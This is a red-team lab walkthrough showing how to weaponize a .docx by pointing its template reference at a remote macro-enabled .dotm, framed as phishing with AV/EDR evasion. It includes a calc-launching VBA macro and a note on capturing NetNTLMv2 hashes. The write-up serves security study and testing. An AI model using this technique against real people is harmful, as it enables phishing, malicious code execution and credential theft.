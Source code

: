 ```yaml
---
layout: post
title: "inject macros from a remote dotm template docx with macros"
date: 2024-06-18
categories: phishing-with-ms-office
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /phishing-with-ms-office/
---
```


# Inject Macros from a Remote Dotm Template

This lab shows how it is possible to add a macros payload to a docx file indirectly, which has a good chance of evading some AVs/EDRs.&#x20;

This technique works in the following way:

1. A malicious macro is saved in a Word template .dotm file
2. Benign .docx file is created based on one of the default MS Word Document templates
3. Document from step 2 is saved as .docx
4. Document from step 3 is renamed to .zip
5. Document from step 4 gets unzipped
6. .\word\_rels\settings.xml.rels contains a reference to the template file. That reference gets replaced with a refernce to our malicious macro created in step 1. File can be hosted on a web server (http) or webdav (smb).
7. File gets zipped back up again and renamed to .docx
8. Done

## Weaponization

Alt+F8 to enter Dev mode where we can edit Macros, select `ThisDocument` and paste in:

{% code title="Doc3.dotm" %}
```javascript
Sub Document_Open()

Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc"

End Sub
```
{% endcode %}

![](<../../../.gitbook/assets/Screenshot from 2019-03-18 22-19-22.png>)

Create a benign .docx file based on one of the provided templates and save it as .docx:

![](<../../../.gitbook/assets/Screenshot from 2019-03-18 22-24-02.png>)

Rename legit.docx to legit.zip:

![](<../../../.gitbook/assets/Screenshot from 2019-03-18 22-26-41.png>)

Unzip the archive and edit `word_rels\settings.xml.rels`:

{% code title="word_rels\settings.xml.rels" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
```
{% endcode %}

Note it has the target template specified here:

![](<../../../.gitbook/assets/Screenshot from 2019-03-18 22-36-30.png>)

Upload the template created previously `Doc3.dot` to an SMB server (note that the file could be hosted on a web server also!).

Update word\_rels\settings.xml.rels to point to Doc3.dotm:

![](<../../../.gitbook/assets/Screenshot from 2019-03-18 22-59-07.png>)

Zip all the files of `legit` archive and name it back to .docx - we now have a weaponized document:

![](<../../../.gitbook/assets/Peek 2019-03-18 23-07.gif>)

{% hint style="info" %}
Note that this technique could be used to steal NetNTLMv2 hashes since the target system is connecting to the attacking system - a responder can be listening there.
{% endhint %}

## References

{% embed url="http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html" %}
@spotheplanet
